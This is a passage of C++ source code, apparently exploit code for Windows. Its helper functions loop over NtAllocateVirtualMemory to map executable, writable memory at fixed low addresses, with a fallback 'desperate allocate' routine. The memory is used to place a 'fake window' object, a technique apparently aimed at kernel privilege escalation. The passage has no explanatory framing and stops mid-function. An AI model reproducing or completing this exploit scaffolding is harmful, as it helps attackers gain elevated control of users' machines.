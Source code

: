        while (Status)
        {
            std::cout << "Error Allocate : 0x" << std::hex << Addr << " "<< Status
                << std::endl;
            BaseAddr += 0x10000;
            Addr = (PVOID) BaseAddr;
            Status = NtAllocateVirtualMemory( ((HANDLE) -1), &Addr, 0, &Size,
            MEM_RESERVE|MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            // If this have not work we will try to free something which is already
            // alloc this have a good chance to finish by crashing the program
            // but for now I have no problem with this
            if (((BaseAddr >> 16) & 0xff) > 0x7f)
            {
                std::cout << "Fail to allocate a valid page" << std::endl;
                std::cout << "Begin desperate allocate" << std::endl;
                return desesperateallocate();
            }
        }

        std::cout << "Success to allocate : 0x" << std::hex << Addr << std::endl;
        return Addr;
    }

    // allocate with NTAllocatVirtualMemory a place for putting a fake window
    PVOID allocatefun()
    {
        int BaseAddr = 0x00200000; // this is arbitrary
        PVOID Addr = (PVOID) BaseAddr;
        ULONG Size = 1024;
        ULONG Status = 1;

        Status = NtAllocateVirtualMemory( ((HANDLE) -1), &Addr, 0, &Size,
            MEM_RESERVE|MEM_COMMIT, PAGE_EXECUTE_READWRITE);

        while (Status)
        {
            std::cout << "Error Allocate : 0x" << std::hex << Addr << " "<< Status
                << std::endl;
            BaseAddr += 0x10000;
            Addr = (PVOID) BaseAddr;
            Status = NtAllocateVirtualMemory( ((HANDLE) -1), &Addr, 0, &Size,
            MEM_RESERVE|MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        }

        std::cout << "Success to allocate : 0x" << std::hex << Addr << std::endl;
        return Addr;
    }


    void prepdecr(HINSTANCE hInst)
    {
        FakeWin = functionallocate();
        FakeWin = (char *)FakeWin + 0x64; // adding something for not having a double 0

        std::cout << "Fake Win : " << std::hex << FakeWin << std::endl;
